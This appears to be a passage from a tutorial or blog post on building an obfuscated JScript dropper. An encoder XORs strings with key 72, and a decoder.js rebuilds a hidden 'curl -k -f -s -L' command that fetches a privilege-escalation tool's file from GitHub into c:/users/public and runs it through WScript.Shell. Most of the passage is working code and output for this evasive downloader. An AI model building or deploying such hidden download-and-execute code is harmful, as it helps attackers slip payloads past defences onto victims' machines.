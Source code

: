 ```js
		for (a=0;a<sizeof3;a++)
		{
		encodedURI[a]=thelink.charCodeAt(a) ^ 72; <-- XOR encoding using the decimal value '72' 
		}
		//finalURI="%"+encodedURI.join("%");
		WScript.Echo("The URL encoded: "+encodedURI);
```

Let's run it... 😜

```
C:\temp\ourjsfiles>cscript encoder.js
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

curl encoded: 43,61,58,36,104,101,35,104,101,46,104,101,59,104,101,4,104
last part of curl encoded: 104,101,39,104,43,114,103,61,59,45,58,59,103,56,61,42,36,33,43,103,60,32,45,44,58,39,56,56,45,44,46,33,36,45
The URL encoded: 32,60,60,56,59,114,103,103,58,41,63,102,47,33,60,32,61,42,61,59,45,58,43,39,38,60,45,38,60,102,43,39,37,103,47,123,60,59,49,59,60,123,37,103,45,36,45,62,41,60,33,39,38,59,60,41,60,33,39,38,103,37,41,33,38,103,45,36,45,62,41,60,33,39,38,59,60,41,60,33,39,38,103,45,36,45,62,41,60,33,39,38,59,60,41,60,33,39,38,102,43,56,56
```

so, we have our xor encoded values.  Let's add them to our decode routine.

***The Decoding Routine***
-

```js
//decoder.js
var decoded1 = [];
var linkURI = [];
var decoded2 = [];
var decodedURI = [];
var encoded1 = [43,61,58,36,104,101,35,104,101,46,104,101,59,104,101,4,104]; 
var encoded2 = [104,101,39,104,43,114,103,61,59,45,58,59,103,56,61,42,36,33,43,103,60,32,45,44,58,39,56,56,45,44,46,33,36,45];
var thelink =  [32,60,60,56,59,114,103,103,58,41,63,102,47,33,60,32,61,42,61,59,45,58,43,39,38,60,45,38,60,102,43,39,37,103,47,123,60,59,49,59,60,123,37,103,45,36,45,62,41,60,33,39,38,59,60,41,60,33,39,38,103,37,41,33,38,103,45,36,45,62,41,60,33,39,38,59,60,41,60,33,39,38,103,45,36,45,62,41,60,33,39,38,59,60,41,60,33,39,38,102,43,56,56];
		var sizeof1=encoded1.length;
		var sizeof2=encoded2.length;
		var sizeof3=thelink.length;
		
    var obj = new ActiveXObject('WScript.Shell');
		for (a=0;a<sizeof1;a++)
		{
		decoded1[a]=String.fromCharCode(encoded1[a] ^ 72);
		}
		for (a=0;a<sizeof2;a++)
		{
		decoded2[a]=String.fromCharCode(encoded2[a] ^ 72);
		}
		for (a=0;a<sizeof3;a++)
		{
		decodedURI[a]=String.fromCharCode(thelink[a] ^ 72);
		}
		
		decode1final=decoded1.join("");
		decode2final=decoded2.join("");
		linkURI=decodedURI.join("");
		
	    WScript.Echo(decode1final + linkURI + decode2final);
      obj.Run(decode1final+linkURI+decode2final);
```